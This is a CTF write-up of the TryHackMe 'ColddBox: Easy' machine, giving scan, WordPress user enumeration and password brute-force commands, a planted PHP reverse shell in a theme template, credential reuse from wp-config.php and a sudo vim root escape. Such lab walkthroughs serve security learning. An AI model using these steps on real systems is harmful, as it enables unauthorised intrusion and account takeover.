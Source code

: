 ```bash
# PLATFORM          . THM
# CTF NAME          . ColddBox: Easy
# DESCRIPTION       . An easy level machine with multiple ways to escalate privileges.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/colddboxeasy
```

```
sudo nmap -sSVC -T5 -p- -oN coldbox 10.10.39.162
```

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-title: ColddBox | One more machine
|_http-server-header: Apache/2.4.18 (Ubuntu)

4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ebf98c09bc536808c96e8969565973b (RSA)
|   256 8817f1a844f7f8062fd34f733298c7c5 (ECDSA)
|_  256 f2fc6c750820b1b2512d94d694d7514f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```
ffuf -u http://10.10.39.162/FUZZ -w /usr/share/wordlists/dirb/common.txt -t 100
```

```
hidden                  [Status: 301, Size: 313, Words: 20, Lines: 10]
wp-admin                [Status: 301, Size: 315, Words: 20, Lines: 10]
wp-content              [Status: 301, Size: 317, Words: 20, Lines: 10]
wp-includes             [Status: 301, Size: 318, Words: 20, Lines: 10]
xmlrpc.php              [Status: 200, Size: 42, Words: 6, Lines: 1]
```

- Alright, so we have some interesting results.
- `/hidden` directory gives us a list of possible usernames in the form of a message on the `index.html` page.

```
C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip
```

- Alright, back to the main page. By inspecting the source code, we can see the wordpress version used

```
<meta name="generator" content="WordPress 4.1.31" />
```

- Alright. Technically, we could assume that the users are `hugo`, `philip` and `c0ldd`, but let's use `wpscan` to see what it finds.

```
wpscan --url http://10.10.39.162 -e
```

```
User(s) Identified:

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

- Alright. We also have the login panel in `/wp-admin/` directory, so let's brute-force it.

- We can use either `hydra` or `wpscan`.

**WPSCAN** 

```
wpscan --url http://10.10.39.162 -U philip,c0ldd,hugo -P /usr/share/wordlists/rockyou.txt
```

```
+] Performing password attack on Wp Login against 3 user/s
[SUCCESS] - c0ldd / {redacted}   
```

**HYDRA**

```
sudo hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.39.162 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location" -t 64
```

```
[80][http-post-form] host: 10.10.39.162   login: c0ldd   password: {redacted}
```

**NOTE**: `users.txt` is a file containing our usernames, each on a separate line.

- Alright. So we have credentials for the `/wp-admin` page.

- After logging in, the most obvious way for me to escalate my access to the server was to edit one of the existing `.php` pages with a reverse shell.

- So I went to `Appearance -> Editor` and on the right hand side of the screen we see `Templates`.

- Here, I chose to edit the `404 Template` which is the content displayed when the `404` error occurs.

- I replaced the existing code with pentestmonkey's PHP reverse shell code and accessed it via `ip/wp-content/themes/twentyfifteen/404.php` after setting up my listener. 

- Now we're under `www-data` on the server. I know that the `wp-config.php` file is the file that contains the database config of wordpress, so let's take a look here first.

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', '{redacted}');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

- We have the password of the mysql, but the username is `c0ldd`. 
- I tried reading the flag from `/home/c0ldd/user.txt` and I don't have permissions, so I assume we must escalate privileges first to `c0ldd` and then root.

- The user `c0ldd` has the same password as in the config for his own account - `su c0ldd`

```
sudo -l

(root) /usr/bin/vim
(root) /bin/chmod
(root) /usr/bin/ftp
```

- We can use any of these binaries to escalate privileges to root.

- I chose vim since I knew the command from the top of my head, but you can check GTFObins to see how to escalate privileges using each one of them

```
sudo /usr/bin/vim

<ESC>
:!/bin/bash
<ENTER>
```

- The user flag is in `/home/c0ldd/user.txt
- The root flag is in `/root/root.txt`

**NOTE**: I identified multiple ways to get on this system.

- First of all the `xml-rpc.php` file is exposed, which, was previously used as a way for programs / apps to interact with wordpress; 

- This can be further abused to result in a DoS or to bruteforce credentials, depending on what methods we find active by sending the methodCall below

```
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

- However, I didn't had time to try this too, so, if this isn't updated, consider this a reminder for future self.

- Also, after getting access to the `wp-admin` panel, you could technically upload a custom `PHP plugin` that would allow RCE, thus, leading to another way of gaining access on the system.

